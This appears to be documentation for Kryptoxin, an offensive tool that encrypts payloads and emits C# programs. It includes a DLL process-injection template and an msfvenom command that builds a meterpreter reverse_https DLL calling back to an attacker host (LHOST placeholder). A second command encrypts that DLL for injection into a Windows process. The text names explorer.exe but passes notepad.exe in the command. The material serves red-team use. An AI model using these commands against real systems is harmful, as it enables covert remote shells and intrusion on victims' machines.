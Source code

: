 # C\# (.NET)

Kryptoxin supports the [C# programming language](https://learn.microsoft.com/en-us/dotnet/csharp/) as an output language for templates.

## Overview

The C# language is very valuable in the security field, as it provides access to the .NET framework capabilities. Managed programs and DLLs can be written to perform system API calls while granting access to more sophisticated functions such as AES decryption.

All templates shipped with Kryptoxin can be directly pasted into [Visual Studio](https://visualstudio.microsoft.com) (we recommended versions >= `2022`) and be compiled without modification.

## Print Program (`print`)

This basic console program simply prints the UTF-8 encoded text encrypted by Kryptoxin. It uses the `System.Security.Cryptography` .NET class, which is widely supported by current Windows hosts.

``` sh
python -m kryptoxin encrypt -k s3cret --random-iv --random-salt \
--alg AES --key_size 192 --iter 5000 --lang csharp --action print
```

``` {.c# .no-copy}
using System.Security.Cryptography;

class Program // (1)!
{

    [...]
  
    static void Main(string[] args) // (2)!
    {
        [...]
    }
}
```

1. The class generated must be imported in a `C# .NET Console Program` project.
2. The main entry point is `Main()`, the latter will call the decoding and decryption routines.

## DLL Process Injection (`load-library`)

This .NET console program injects a DLL such a those generated by the metasploit's msfvenom utility, into the `explorer.exe` process.

??? warning "The input library must be crafted with a special DllMain() function"
    The dynamic-linked library passed in input must be specially crafted with a `DllMain()` function. The process injection method
    in this program uses the system's `LoadLibraryA()` Win32 API function, which call the above function when loading a library.

??? info "The .DLL file is written to the target's disk unencrypted"
    This C# console program uses the `LoadLibraryA()` Windows API function, which require a library file stored on the disk.
    Therefore it will write the decrypted DLL onto the host's hard disk, allowing for potential anti-virus detection.

The example below encrypt the `msf.dll` generated by msfvenom and output a C# console program source code that can be readily pasted into a Microsoft Visual Studio project.

``` sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=w.x.y.z LPORT=443 \
EXITFUNC=thread -f dll -o msf.dll
```

``` sh
python -m kryptoxin encrypt -k 123456 --random-iv --random-salt \
--lang csharp --action load-dll --in msf.dll --dllname=aton32.dll \
--process=notepad.exe
```
